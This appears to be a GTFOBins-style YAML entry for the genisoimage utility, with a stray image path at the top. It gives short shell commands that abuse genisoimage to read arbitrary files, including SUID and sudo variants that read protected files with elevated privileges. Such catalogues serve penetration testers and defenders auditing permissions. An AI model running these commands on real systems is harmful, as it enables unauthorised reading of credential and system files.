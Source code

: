 description: The output is placed inside the ISO9660 file system binary format thus it may not be suitable for binary content as is, yet it can be mounted or extracted with tools like `7z`.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        genisoimage -q -o - "$LFILE"
  suid:
    - description: The file is parsed, and some of its content is disclosed by the error messages, thus this might not be suitable to read arbitrary data.
      code: |
        LFILE=file_to_read
        ./genisoimage -sort "$LFILE"
  sudo:
    - code: |
        LFILE=file_to_read
        sudo genisoimage -q -o - "$LFILE"
---

